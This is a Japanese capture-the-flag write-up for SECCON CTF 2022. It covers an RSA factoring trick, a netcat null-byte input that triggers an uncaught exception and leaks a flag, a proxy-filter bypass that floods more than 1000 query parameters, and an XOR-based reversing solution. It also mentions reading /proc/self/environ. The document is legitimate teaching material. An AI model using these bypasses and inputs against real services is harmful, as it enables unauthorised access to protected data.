

# SECCON CTF 2022

- 開催期間：2022/11/12 - 2022/11/13

---
# Crypto
## pqpq

配布ファイルは暗号処理のスクリプトと出力結果。

```
from Crypto.Util.number import *
from Crypto.Random import *
from flag import flag

p = getPrime(512)
q = getPrime(512)
r = getPrime(512)
n = p * q * r
e = 2 * 65537

assert n.bit_length() // 8 - len(flag) > 0
padding = get_random_bytes(n.bit_length() // 8 - len(flag))
m = bytes_to_long(padding + flag)

assert m < n

c1p = pow(p, e, n)
c1q = pow(q, e, n)
cm = pow(m, e, n)
c1 = (c1p - c1q) % n
c2 = pow(p - q, e, n)

print(f"e = {e}")
print(f"n = {n}")
# p^e - q^e mod n
print(f"c1 = {c1}")
# (p-q)^e mod n
print(f"c2 = {c2}")
# m^e mod n
print(f"cm = {cm}")
```

```
e = 131074
n = 587926815910957928506680558951380405698765957736660571041732511939308424899531125274073420353104933723578377320050609109973567093301465914201779673281463229043539776071848986139657349676692718889679333084650490543298408820393827884588301690661795023628407437321580294262453190086595632660415087049509707898690300735866307908684649384093580089579066927072306239235691848372795522705863097316041992762430583002647242874432616919707048872023450089003861892443175057
c1 = 92883677608593259107779614675340187389627152895287502713709168556367680044547229499881430201334665342299031232736527233576918819872441595012586353493994687554993850861284698771856524058389658082754805340430113793873484033099148690745409478343585721548477862484321261504696340989152768048722100452380071775092776100545951118812510485258151625980480449364841902275382168289834835592610827304151460005023283820809211181376463308232832041617730995269229706500778999
c2 = 46236476834113109832988500718245623668321130659753618396968458085371710919173095425312826538494027621684566936459628333712619089451210986870323342712049966508077935506288610960911880157875515961210931283604254773154117519276154872411593688579702575956948337592659599321668773003355325067112181265438366718228446448254354388848428310614023369655106639341893255469632846938342940907002778575355566044700049191772800859575284398246115317686284789740336401764665472
cm = 357982930129036534232652210898740711702843117900101310390536835935714799577440705618646343456679847613022604725158389766496649223820165598357113877892553200702943562674928769780834623569501835458020870291541041964954580145140283927441757571859062193670500697241155641475887438532923910772758985332976303801843564388289302751743334888885607686066607804176327367188812325636165858751339661015759861175537925741744142766298156196248822715533235458083173713289585866
```

$n$ が3つの素数の積、 $e$ が65537の2倍になっている。multi-prime RSA。

また、 $c1 = p^e - q^e \bmod n$ と $c2 = (p - q)^e \bmod n$ が与えられている。

$c2$ は展開すると以下のようになる。

$$ c2 = (p - q)^e \bmod n = p^e - p^{e-1}q + p^{e-2}q^2 - p^{e-3}q^3 + ... + q^e \bmod n$$

最後の項 $q^e$ の符号が正なのは、 $e$ が偶数であることからわかる。

したがって、

$$ c1 + c2 = 2p^e - p^{e-1}q + p^{e-2}q^2 - p^{e-3}q^3 + ... - pq^{e-1} \bmod n$$ 

となる。ここから $c1+c2$ が $p$ の倍数であることがわかる。

$c1+c2$ が $p$ の倍数であり、一方で $q$ と $r$ の倍数ではないことがわかっており、かつ $n = pqr$ であることから、 $gcd(c1 + c2, n) = p$ であることがわかる。

同様にして、 $c1 - c2$ を求めると、

$$ c1 - c2 = p^{e-1}q - p^{e-2}q^2 + p^{e-3}q^3 + ... + pq^{e-1} -2q^e \bmod n$$ 

となり、 $c1-c2$ が $q$ の倍数となることから $gcd(c1 - c2, n) = q$ であることがわかる。

$p,q$ が求められれば、 $r$ も求められる。

通常のmulti-prime RSAであれば、

$$ \phi = (p-1)(q-1)(r-1) $$

$$ d = e^{-1} \bmod \phi $$ 

で秘密鍵 $d$ を求めて復号する。

$\phi$ は $e$ と互いに素である必要があるが、今回 $e$ が2の倍数であるため $gcd(\phi, e) = 2$ である。よって $e$ は逆元を持たない。

この場合、ひとまず $e$ を2で割って逆元を求められるようにして、 $m^2$ を求める。

$$ d = (e/2)^{-1} \bmod \phi $$

$$ m^2 = cm^d \bmod n $$ 

あとは $m$ を求めればいい。中国剰余定理で素数 $p,q,r$ に分解するが、法nの下でも平方は2パターン出る可能性があることに気を付ける。

2 * 2 * 2 で計8パターン網羅する必要がある。

```
e = 131074
n = 587926815910957928506680558951380405698765957736660571041732511939308424899531125274073420353104933723578377320050609109973567093301465914201779673281463229043539776071848986139657349676692718889679333084650490543298408820393827884588301690661795023628407437321580294262453190086595632660415087049509707898690300735866307908684649384093580089579066927072306239235691848372795522705863097316041992762430583002647242874432616919707048872023450089003861892443175057
c1 = 92883677608593259107779614675340187389627152895287502713709168556367680044547229499881430201334665342299031232736527233576918819872441595012586353493994687554993850861284698771856524058389658082754805340430113793873484033099148690745409478343585721548477862484321261504696340989152768048722100452380071775092776100545951118812510485258151625980480449364841902275382168289834835592610827304151460005023283820809211181376463308232832041617730995269229706500778999
c2 = 46236476834113109832988500718245623668321130659753618396968458085371710919173095425312826538494027621684566936459628333712619089451210986870323342712049966508077935506288610960911880157875515961210931283604254773154117519276154872411593688579702575956948337592659599321668773003355325067112181265438366718228446448254354388848428310614023369655106639341893255469632846938342940907002778575355566044700049191772800859575284398246115317686284789740336401764665472
cm = 357982930129036534232652210898740711702843117900101310390536835935714799577440705618646343456679847613022604725158389766496649223820165598357113877892553200702943562674928769780834623569501835458020870291541041964954580145140283927441757571859062193670500697241155641475887438532923910772758985332976303801843564388289302751743334888885607686066607804176327367188812325636165858751339661015759861175537925741744142766298156196248822715533235458083173713289585866

import math
from sage.rings.finite_rings.integer_mod import square_root_mod_prime

p = math.gcd(c1+c2, n)
q = math.gcd(c1-c2, n)
r = n//(p*q)

d = pow(e//2, -1, (p-1)*(q-1)*(r-1))
m2 = pow(cm, d, n)

mp = square_root_mod_prime(GF(p)(m2))
mq = square_root_mod_prime(GF(q)(m2))
mr = square_root_mod_prime(GF(r)(m2))

for i in [-1,1]:
  for j in [-1,1]:
    for k in [-1,1]:
      m = CRT([i*int(mp), j*int(mq), k*int(mr)], [p, q, r])
      if b'SECCON' in int(m).to_bytes(256, "big"):
        print(int(m).to_bytes(256, "big"))
```

```
(⁎'~') < sage pqpq_solve.sage
b'\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x12=\x04q\x9b\xb8\x1c\x10C\x02\x1e\x13`\xac>A\x9c\xf9\x9d\xc2\x83\xc2\xcd\x15\x97\x86\x8e\xd2\x85*s\r\x18~\x9b\xbai\xb1\x07\xacF\x0f\xfcrZ\xf1\xd0\x1f\xb0q\xe4\xbf\xd2\x87G\x1b\xdc\xd2u\x97\xb3\xcc?\xba\xba@\xae\x96\xdc\x1b\x10\xd3\x00f\nH\x99d\xf7{\xea \x82T\xf5\x03\x81\xd0:\r\x8d\xa6P\x92\xa0\x1d\x91n u6}:\x98\r\xa0\xbc\xe5\x84y\x01\x89\xa4P\xf4\xf9\xe4\xf2\x95\x8d\x85\x11\xfezN\x06- e(\x80\xd2\x01\x8e\x94&\xf7amQ\x08@\xd4w\x8e\xbbP\xfa\x17SECCON{being_able_to_s0lve_this_1s_great!}'
```

---
# Misc
## find flag

Dockerfileとnetcatでアクセした時に受けるスクリプトが与えられる。スクリプトは以下。またDockerfileからLinux環境なのがわかる。

server.py
```
#!/usr/bin/env python3.9
import os

FLAG = os.getenv("FLAG", "FAKECON{*** REDUCTED ***}").encode()

def check():
    try:
        filename = input("filename: ")
        if open(filename, "rb").read(len(FLAG)) == FLAG:
            return True
    except FileNotFoundError:
        print("[-] missing")
    except IsADirectoryError:
        print("[-] seems wrong")
    except PermissionError:
        print("[-] not mine")
    except OSError:
        print("[-] hurting my eyes")
    except KeyboardInterrupt:
        print("[-] gone")
    return False

if __name__ == '__main__':
    try:
        check = check()
    except:
        print("[-] something went wrong")
        exit(1)
    finally:
        if check:
            print("[+] congrats!")
            print(FLAG.decode())
```

素直にコードを読むと、入力したfilenameのファイルを開いて先頭からFLAGの長さ読み込んでFLAGと値が同じであればFLAGが得られるとわかる。

FLAGは環境変数として設定されている。

Linuxで実行中のプロセスの環境変数は **/proc/self/environ** にあるらしいが、server.pyは先頭から読むため一致しない。


main内のfinallyで ```if check``` が真になるパターンが2つあることに気づけるかが問題だった。

1つは上記で書いた方法。もう1つはcheck関数内で補足されていない例外を起こした場合。

動作をわかりやすくするために同じ構成で以下のようなコードを用意してみた。  

```
def check():
    try:
        n = int(input("n: "))
        if 1 / n == 1:
            return True
    except ZeroDivisionError:
        print("ZeroDivisionError in check")
    #except ValueError:
    #    print("ValueError in check")
    return False

if __name__ == '__main__':
    try:
        check = check()
    except:
        print("Error in main")
        exit(1)
    finally:
        print(f"check = {check}")
        if check:
            print("flag find")
```

```n``` が 0 だったり、intにキャストできない値だと例外が発生する。

```
(⁎'~') < python3 sample.py
n: 0
ZeroDivisionError in check
check = False

(⁎'~') < python3 sample.py 
n: a
Error in main
check = <function check at 0x109bf7e20>
flag find
```

実行してみると、check関数内で補足していない例外が発生した場合には、main内の変数 ```check``` にはcheck関数オブジェクトが入り、この時の ```if check:``` は真になることがわかる。

したがって、server.pyに対してもcheck関数内でいくつか補足している例外以外の例外を起こすような値を渡してやれば、flagが得られる。

nullを渡してあげると、補足していない ```ValueError``` を起こせる。

```
(⁎'~') < python3 -c "print('\x00')"| nc find-flag.seccon.games 10042
filename: [-] something went wrong
[+] congrats!
SECCON{exit_1n_Pyth0n_d0es_n0t_c4ll_exit_sysc4ll}
```

別解として送信側の接続を切るというやり方もみかけた。EOFErrorが起きるらしい。

```
(⁎'~') < python3
>>> from pwn import *
>>> s = remote("find-flag.seccon.games", 10042)
[x] Opening connection to find-flag.seccon.games on port 10042
[x] Opening connection to find-flag.seccon.games on port 10042: Trying 153.125.145.62
[+] Opening connection to find-flag.seccon.games on port 10042: Done
>>> s.shutdown("send")
>>> print(s.recvall().decode())
[x] Receiving all data
[x] Receiving all data: 0B
[x] Receiving all data: 99B
[*] Closed connection to find-flag.seccon.games port 10042
[+] Receiving all data: Done (99B)
filename: [-] something went wrong
[+] congrats!
SECCON{exit_1n_Pyth0n_d0es_n0t_c4ll_exit_sysc4ll}
```

----
# Web
## skipinx

nginxの設定をみると、リクエストに```&proxy=nginx```が追加されることがわかる。

```
server {
  listen 8080 default_server;
  server_name nginx;

  location / {
    set $args "${args}&proxy=nginx";
    proxy_pass http://web:3000;
  }
}
```

一方アプリ側ではクエリのproxyにnginxが含まれているとステータスコード400を返すようになっており、含まれていなければflagが表示される仕組みになっている。

```
const app = require("express")();

const FLAG = process.env.FLAG ?? "SECCON{dummy}";
const PORT = 3000;

app.get("/", (req, res) => {
  req.query.proxy.includes("nginx")
    ? res.status(400).send("Access here directly, not via nginx :(")
    : res.send(`Congratz! You got a flag: ${FLAG}`);
});

app.listen({ port: PORT, host: "0.0.0.0" }, () => {
  console.log(`Server listening at ${PORT}`);
});

```

クエリのパース状態を見るために```app.get("/", (req, res) => { ... });```の中に```console.log(req.query);```を追加してローカルで動かしてみる。

順に、パラメータなし・```?hoge=hoge```・```?hoge=hoge&proxy=1``` とやってみたところ以下のようになる。



同名のパラメータでは配列形式になるも```includes```は正常に動く。

最初の行で```require```してる express というやつが、デフォルトのクエリパーサーとして採用している qs。 これに受け取るクエリパラメータ数の制限がある。

https://www.npmjs.com/package/qs

https://github.com/ljharb/qs/blob/main/lib/parse.js#L21

上記から1000個までとわかるので、勝手に追加される ```&proxy=nginx``` を1001個目以降にしてしまえばよい。

アプリ内でproxyを参照してしまっているので、1000番目までのパラメータに値がnginxでないproxyを含めつつ、あとは適当なパラメータを999個つけてリクエストする。

```
(⁎'~') < python3
>>> import requests
>>> url = "http://skipinx.seccon.games:8080?proxy=a" + "&a=a" * 999
>>> r = requests.get(url)
>>> r.text
'Congratz! You got a flag: SECCON{sometimes_deFault_options_are_useful_to_bypa55}' 
```

----

# Reversing
## babycmp

配布されたのはelfファイル。

```
(⁎'~') < file chall.baby
chall.baby: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=ded5cc024f968b3087bf5d3df8649d14714e7202, for GNU/Linux 3.2.0, not stripped
```

正しい入力をコマンドライン引数にして実行しろという問題。

```
root@af3f3097d7a8:/share/seccon# ./chall.baby 
Usage: ./chall.baby FLAG
root@af3f3097d7a8:/share/seccon# ./chall.baby AAA
Wrong...
```

Ghidraでのデコンパイル結果は以下。

```
undefined8 main(int param_1,undefined8 *param_2)

{
  size_t sVar1;
  ulong uVar2;
  size_t sVar3;
  ulong *__s;
  undefined8 uVar4;
  long in_FS_OFFSET;
  undefined4 local_68;
  undefined4 uStack100;
  undefined4 uStack96;
  undefined4 uStack92;
  undefined4 local_58;
  undefined2 local_54;
  undefined local_52;
  undefined4 local_48;
  undefined4 uStack68;
  undefined4 local_40;
  undefined4 uStack60;
  undefined4 local_38;
  undefined4 uStack52;
  undefined4 local_30;
  undefined4 uStack44;
  int local_28;
  long local_20;
  
  local_20 = *(long *)(in_FS_OFFSET + 0x28);
  if (param_1 < 2) {
    uVar4 = 1;
    __printf_chk(1,"Usage: %s FLAG\n",*param_2);
  }
  else {
    __s = (ulong *)param_2[1];
    cpuid_basic_info(0);
    local_28 = 0x380a41;
    local_58 = 0x3032204e;
    local_48 = 0x202f2004;
    uStack68 = 0x591e2320;
    local_40 = 0x202f2004;
    uStack60 = 0x591e2320;
    local_54 = 0x3232;
    local_38 = 0x35a1711;
    uStack52 = 0x736506d;
    local_30 = 0x35a1711;
    uStack44 = 0x736506d;
    local_52 = 0;
    local_68 = 0x636c6557;
    uStack100 = 0x20656d6f;
    uStack96 = 0x636c6557;
    uStack92 = 0x20656d6f;
    sVar1 = strlen((char *)__s);
    if (sVar1 != 0) {
      *(byte *)__s = *(byte *)__s ^ 0x57;
      uVar2 = 1;
      if (sVar1 != 1) {
        do {
          sVar3 = uVar2 + 1;
          *(byte *)(param_2[1] + uVar2) =
               *(byte *)(param_2[1] + uVar2) ^
               *(byte *)((long)&local_68 +
                        uVar2 + ((SUB168(ZEXT816(uVar2) * ZEXT816(0x2e8ba2e8ba2e8ba3) >> 0x40,0) &
                                 0xfffffffffffffffc) * 2 + (uVar2 / 0x16) * 3) * -2);
          uVar2 = sVar3;
        } while (sVar1 != sVar3);
      }
      __s = (ulong *)param_2[1];
    }
    if ((((__s[1] ^ CONCAT44(uStack60,local_40) | *__s ^ CONCAT44(uStack68,local_48)) == 0) &&
        ((__s[3] ^ CONCAT44(uStack44,local_30) | __s[2] ^ CONCAT44(uStack52,local_38)) == 0)) &&
       (*(int *)(__s + 4) == local_28)) {
      uVar4 = 0;
      puts("Correct!");
    }
    else {
      uVar4 = 0;
      puts("Wrong...");
    }
  }
  if (local_20 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return uVar4;
}
```

```param2```に引数として渡す文字列が入る。

ざっくり処理を追うと、以下のようになっている。

1. 引数が渡された場合はその値の1byte目と **0x57(b'W')** とのXORをとる
2. 1.の値を以降の1byteずつ、なんらかの値とのXORをとる
3. 2.の結果を別のなんらかの値と比較して条件を満たした場合に **Correct!** が表示される

3.の```put("Correct!")``` と ```put("Wrong...")``` の分岐部分のif文条件が複雑に見えるが、ただ定数と一致しているかを検証しているだけ。

```CONCAT``` は連結処理、```CONCAT44``` は4byteと4byteを繋げるという意味。

上の手順2.で得られた値とXORしているため、等しかった場合に0になり ```== 0``` が成り立つ。

ただ、ここで参照している ```local_48``` や ```uStack68``` の値がghidraのデコンパイル結果ではおかしい。

例えば ```local_48``` は ```local_40``` と同じ値になっており、```uStack68``` は ```uStack60``` と同じになっている。

```local_48``` に値の代入を行っている部分の逆アセンブル結果を見ると、正しい値がなにかはわかる。

```
        001011b1 66 0f 6f        MOVDQA     XMM0,xmmword ptr [DAT_00103140]                  = 04h
                 05 87 1f 
                 00 00
        001011b9 b8 32 32        MOV        EAX,0x3232
                 00 00
        001011be 4c 89 e7        MOV        RDI,R12
        001011c1 c7 44 24        MOV        dword ptr [RSP + local_28],0x380a41
                 40 41 0a 
                 38 00
        001011c9 c7 44 24        MOV        dword ptr [RSP + local_58],0x3032204e
                 10 4e 20 
                 32 30
        001011d1 0f 11 44        MOVUPS     xmmword ptr [RSP + local_48],XMM0
                 24 20


            :
            :
            :

                             DAT_00103140                                    XREF[1]:     main:001011b1(R)  
        00103140 04              ??         04h
        00103141 20              ??         20h     
        00103142 2f              ??         2Fh    /
        00103143 20              ??         20h     
        00103144 20              ??         20h     
        00103145 23              ??         23h    #
        00103146 1e              ??         1Eh
        00103147 59              ??         59h    Y
        00103148 44              ??         44h    D
        00103149 1a              ??         1Ah
        0010314a 7f              ??         7Fh    
        0010314b 35              ??         35h    5
        0010314c 75              ??         75h    u
        0010314d 36              ??         36h    6
        0010314e 2d              ??         2Dh    -
        0010314f 2b              ??         2Bh    +
```

```local_48``` に先頭4byte、```uStack68``` に次の4byteと入っているので、続く```local_40``` に次の4byte、```uStack60``` に最後の4byteが入るだろう。

同じように ```local38``` , ```uStack52``` , ```local30``` , ```uStack44``` も以下から実際に入っている値がわかる。 
```
        001011d6 66 0f 6f        MOVDQA     XMM0,xmmword ptr [DAT_00103150]                  = 11h
                 05 72 1f 
                 00 00
        001011de 66 89 44        MOV        word ptr [RSP + local_54],AX
                 24 14
        001011e3 0f 11 44        MOVUPS     xmmword ptr [RSP + local_38],XMM0
                 24 30

            :
            :
            :
                             DAT_00103150                                    XREF[1]:     main:001011d6(R)  
        00103150 11              ??         11h
        00103151 17              ??         17h
        00103152 5a              ??         5Ah    Z
        00103153 03              ??         03h
        00103154 6d              ??         6Dh    m
        00103155 50              ??         50h    P
        00103156 36              ??         36h    6
        00103157 07              ??         07h
        00103158 15              ??         15h
        00103159 3c              ??         3Ch    <
        0010315a 09              ??         09h
        0010315b 01              ??         01h
        0010315c 04              ??         04h
        0010315d 47              ??         47h    G
        0010315e 2b              ??         2Bh    +
        0010315f 36              ??         36h    6
```

手順3.のif文で一致確認しているのは、上記と ```local_28``` の3byte分で全部で35byteとなる。

入力した引数の長さを途中で変えるような処理は見当たらないため、これがFLAGの長さになると考えられる。

ここらへんまでは自分で考えられたが、手順2.の処理がよくわからなかった。

```local_68``` が定数値であり、以下のような意味のある文字列を参照しているのでこれが鍵だろうとは予想できた。

```
                             DAT_00103160                                    XREF[1]:     main:001011e8(R)  
        00103160 57              ??         57h    W
        00103161 65              ??         65h    e
        00103162 6c              ??         6Ch    l
        00103163 63              ??         63h    c
        00103164 6f              ??         6Fh    o
        00103165 6d              ??         6Dh    m
        00103166 65              ??         65h    e
        00103167 20              ??         20h     
        00103168 74              ??         74h    t
        00103169 6f              ??         6Fh    o
        0010316a 20              ??         20h     
        0010316b 53              ??         53h    S
        0010316c 45              ??         45h    E
        0010316d 43              ??         43h    C
        0010316e 43              ??         43h    C
        0010316f 4f              ??         4Fh    O
```

手順2.の処理を知るために、動的解析してみる。

手順3.のif文直前で比較する値がどうなっているかをgdbで観察する。

Ghidraの逆アセンブル結果からif文の処理のアドレスにbreakpointを設定する。

```
root@af3f3097d7a8:/share/seccon# gdb chall.baby 
GNU gdb (Ubuntu 9.2-0ubuntu1~20.04) 9.2

...

Reading symbols from chall.baby...
(No debugging symbols found in chall.baby)
gdb-peda$ b *(main+0x10125b-0x101180)
Breakpoint 1 at 0x125b
gdb-peda$ run AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Starting program: /share/seccon/chall.baby AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
warning: Error disabling address space randomization: Operation not permitted
[----------------------------------registers-----------------------------------]
RAX: 0x43 ('C')
RBX: 0x756e6547 ('Genu')
RCX: 0x24 ('$')
RDX: 0xd ('\r')
RSI: 0x7ffcd85ec904 --> 0x504f5353454c0002 
RDI: 0x24 ('$')
RBP: 0x7ffcd85eb4e8 --> 0x7ffcd85ec8c8 ("/share/seccon/chall.baby")
RSP: 0x7ffcd85eb390 ("Welcome to SECCON 2022")
RIP: 0x55ce3670525b (<main+219>:	mov    rax,QWORD PTR [r12])
R8 : 0x2e8ba2e8ba2e8ba3 
R9 : 0x7f49e024ed50 (endbr64)
R10: 0x5 
R11: 0x0 
R12: 0x7ffcd85ec8e1 --> 0x61242c2e222d2416 
R13: 0x7ffcd85eb4e0 --> 0x2 
R14: 0x0 
R15: 0x0
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x55ce36705252 <main+210>:	cmp    rdi,rcx
   0x55ce36705255 <main+213>:	jne    0x55ce36705220 <main+160>
   0x55ce36705257 <main+215>:	mov    r12,QWORD PTR [rbp+0x8]
=> 0x55ce3670525b <main+219>:	mov    rax,QWORD PTR [r12]
   0x55ce3670525f <main+223>:	mov    rdx,QWORD PTR [r12+0x8]
   0x55ce36705264 <main+228>:	xor    rax,QWORD PTR [rsp+0x20]
   0x55ce36705269 <main+233>:	xor    rdx,QWORD PTR [rsp+0x28]
   0x55ce3670526e <main+238>:	or     rdx,rax
[------------------------------------stack-------------------------------------]
0000| 0x7ffcd85eb390 ("Welcome to SECCON 2022")
0008| 0x7ffcd85eb398 ("to SECCON 2022")
0016| 0x7ffcd85eb3a0 --> 0x32323032204e ('N 2022')
0024| 0x7ffcd85eb3a8 --> 0xf6c8b89910e80000 
0032| 0x7ffcd85eb3b0 --> 0x591e2320202f2004 
0040| 0x7ffcd85eb3b8 --> 0x2b2d3675357f1a44 
0048| 0x7ffcd85eb3c0 --> 0x736506d035a1711 
0056| 0x7ffcd85eb3c8 --> 0x362b470401093c15 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x000055ce3670525b in main ()
gdb-peda$ x/35bx $r12
0x7ffcd85ec8e1:	0x16	0x24	0x2d	0x22	0x2e	0x2c	0x24	0x61
0x7ffcd85ec8e9:	0x35	0x2e	0x61	0x12	0x04	0x02	0x02	0x0e
0x7ffcd85ec8f1:	0x0f	0x61	0x73	0x71	0x73	0x73	0x16	0x24
0x7ffcd85ec8f9:	0x2d	0x22	0x2e	0x2c	0x24	0x61	0x35	0x2e
0x7ffcd85ec901:	0x61	0x12	0x04
gdb-peda$ x/35bx $rsp+0x20
0x7ffcd85eb3b0:	0x04	0x20	0x2f	0x20	0x20	0x23	0x1e	0x59
0x7ffcd85eb3b8:	0x44	0x1a	0x7f	0x35	0x75	0x36	0x2d	0x2b
0x7ffcd85eb3c0:	0x11	0x17	0x5a	0x03	0x6d	0x50	0x36	0x07
0x7ffcd85eb3c8:	0x15	0x3c	0x09	0x01	0x04	0x47	0x2b	0x36
0x7ffcd85eb3d0:	0x41	0x0a	0x38
```

```r12``` が入力した ```AAAAAA...``` を何らかの値とXORした値で、```rsp+0x20``` が正しい入力をした場合に変換後得られる値。

結論言うと単純に **Welcome to SECCON 2022** の繰り返しとXORしただけだった。

なので引数を **Welcome to SECCON 2022** の35文字繰り返しにすると ```r12``` は全部 0x00 になる。

```
gdb-peda$ run "Welcome to SECCON 2022Welcome to SECCON 2022W"
Starting program: /share/seccon/chall.baby "Welcome to SECCON 2022Welcome to SECCON 2022W"

...

Breakpoint 1, 0x000055bf9594225b in main ()
gdb-peda$ x/35bx $r12
0x7ffd1d3d88d8:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x7ffd1d3d88e0:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x7ffd1d3d88e8:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x7ffd1d3d88f0:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x7ffd1d3d88f8:	0x00	0x00	0x00
```

つまり簡単に式にすると

（入力引数） ⊕ （**"Welcome to.."**） ⊕ （正しい入力をした場合に変換後得られる値）= 0

となれば良い。これを満たすためには、

（入力引数） = （**"Welcome to.."**） ⊕ （正しい入力をした場合に変換後得られる値）

となれば良いので、以下のようなスクリプトを作成。

```
key_length = 35
key = "Welcome to SECCON 2022" * 3
key = key[:key_length]

expect_value = """
0x04	0x20	0x2f	0x20	0x20	0x23	0x1e	0x59
0x44	0x1a	0x7f	0x35	0x75	0x36	0x2d	0x2b
0x11	0x17	0x5a	0x03	0x6d	0x50	0x36	0x07
0x15	0x3c	0x09	0x01	0x04	0x47	0x2b	0x36
0x41	0x0a	0x38
"""

expect_list = expect_value.split()

for i in range(key_length):
	print(chr(int(expect_list[i],16) ^ ord(key[i])), end="")

print()
```
```
(⁎'~') < python3 challbaby_solve.py 
SECCON{y0u_f0und_7h3_baby_flag_YaY}
```

<script type="text/x-mathjax-config">MathJax.Hub.Config({tex2jax:{inlineMath:[['\$','\$'],['\\(','\\)']],processEscapes:true},CommonHTML: {matchFontHeight:false}});</script>
<script type="text/javascript" async src="https://cdnjs.cloudflare.com/ajax/libs/mathjax/2.7.1/MathJax.js?config=TeX-MML-AM_CHTML"></script>
